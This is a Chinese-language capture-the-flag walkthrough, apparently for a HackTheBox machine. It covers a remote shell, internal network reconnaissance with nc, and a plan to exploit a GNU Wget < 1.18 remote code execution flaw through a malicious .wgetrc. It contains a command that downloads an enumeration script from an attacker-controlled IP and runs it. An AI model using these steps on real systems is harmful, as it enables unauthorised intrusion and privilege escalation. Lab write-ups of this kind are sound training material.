 远程shell: 
```
cd /tmp
wget http://10.10.14.5:80/LinEnum.sh
chmod a+x LinEnum.sh; ./LinEnum.sh
```
![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/05-25-07/3.PNG)

find . -name "root.txt" 2>/dev/null
未找到

![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/05-25-07/4.PNG)

### 线索app.log
app.log暗示了我们10.0.3.133的wget版本`Wget/1.16`

`wget -V`，发现主机10.10.10.55的Wget版本为 `1.17.1`

有一个主机10.0.3.133，每两分钟获取主机10.10.10.55的/archive.tar.gz文件。

```
searchsploit Wget
GNU Wget < 1.18 - Arbitrary File Upload / Remote Code Execution 

searchsploit -m exploits/linux/remote/40064.txt
```
查看40064.txt

---

### 信息搜集

**ifconfig**
```
eth0 inet addr:10.10.10.55
lxcbr0 inet addr:10.0.3.1
```
`arp -a` 查看本地arp缓存表。
显示局域网ip有两个，`10.10.10.2` `10.10.3.133`
shell终端运行nmap，显示不能用。
那么用nc来扫描端口：
`nc -v 10.10.3.133 445`
`nc -v 10.10.3.133 3389`
`nc -v 10.10.3.133 22`
只有22端口显示succeeded。
这一步骤为了确定ip133的是什么机器，显然是linux机器。

看来我们要提权10.10.3.133的root权限，来获得root.txt

### wget漏洞利用
#### 利用思路
当133主机请求10.0.3.1的archive存档文件时候，3.1会提示404不存在。

如果我们用kali开启ftp服务，并且让3.1重定向到kali-ftp，于是133主机就会取回.wgetrc作为全局初始化配置文件。
